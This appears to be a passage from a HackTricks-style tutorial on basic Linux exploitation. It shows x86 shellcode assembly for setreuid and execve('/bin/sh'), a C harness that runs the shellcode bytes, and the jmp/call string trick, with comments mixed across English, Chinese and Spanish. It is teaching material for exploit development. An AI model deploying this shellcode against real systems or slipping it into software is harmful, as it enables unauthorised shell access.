 # Linux Exploiting (Basic) (SPA)

<details><summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary></details>

## **2.SHELLCODE**

View kernel interrupts: cat /usr/include/i386-linux-gnu/asm/unistd\_32.h | grep “\_\_NR\_”

setreuid(0,0); // \_\_NR\_setreuid 70\
execve(“/bin/sh”, args\[], NULL); // \_\_NR\_execve 11\
exit(0); // \_\_NR\_exit 1

xor eax, eax ; clear eax\
xor ebx, ebx ; ebx = 0 as there are no arguments to pass\
mov al, 0x01 ; eax = 1 —> \_\_NR\_exit 1\
int 0x80 ; Execute syscall

**nasm -f elf assembly.asm** —> Returns a .o file\
**ld assembly.o -o shellcodeout** —> Generates an executable with the assembly code and we can extract the opcodes with **objdump**\
**objdump -d -Mintel ./shellcodeout** —> To verify that it is indeed our shellcode and extract the OpCodes

**Verify that the shellcode works**

```
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
void (*fp) (void);
fp = (void *)shellcode;
fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

为了确保系统调用被正确执行，应编译前一个程序并在**strace ./COMPILADO\_程序**中查看系统调用。

在创建shellcode时，可以使用一个技巧。第一条指令是跳转到一个调用。该调用会调用原始代码，并将EIP放入堆栈。在call指令之后，我们已经放入了所需的字符串，因此可以使用该EIP指向字符串，并继续执行代码。

例 **TRICK (/bin/sh)**:

```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

